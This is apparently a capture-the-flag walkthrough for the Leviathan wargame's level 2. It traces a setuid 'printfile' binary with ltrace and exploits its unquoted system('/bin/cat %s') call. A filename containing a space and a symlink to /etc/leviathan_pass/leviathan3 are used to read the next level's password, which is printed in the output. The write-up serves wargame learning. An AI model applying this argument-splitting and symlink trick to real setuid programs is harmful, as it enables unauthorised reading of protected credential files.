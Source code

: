 leviathan2@leviathan:/tmp/leviathan2$ ltrace ~/printfile level\ 3.pass
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("level 3.pass", 4)                               = 0
snprintf("/bin/cat level 3.pass", 511, "/bin/cat %s", "level 3.pass") = 21
geteuid()                                               = 12002
geteuid()                                               = 12002
setreuid(12002, 12002)                                  = 0
system("/bin/cat level 3.pass"/bin/cat: level: No such file or directory
/bin/cat: 3.pass: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                  = 256
+++ exited (status 0) +++


**************looking at the system call to the /bin/cat - we can see that it seperates spaces as two seperate commands.
we create a file that has a space in the filename.  like "level 3.pass"  and a symlink using the first word,  before the space of that file.  Then call the printfile executable and BAM!


leviathan2@leviathan:/tmp/leviathan2$ ~/printfile level\ 3.pass
Ahdiemoo1j
/bin/cat: 3.pass: No such file or directory
leviathan2@leviathan:/tmp/leviathan2$ ls -alh
total 228K
drwxr-sr-x   2 leviathan2 root 4.0K Apr 17 04:31 .
drwxrws-wt 171 root       root 220K Apr 17 04:32 ..
lrwxrwxrwx   1 leviathan2 root   30 Apr 17 04:31 level -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root    0 Apr 17 04:31 level 3.pass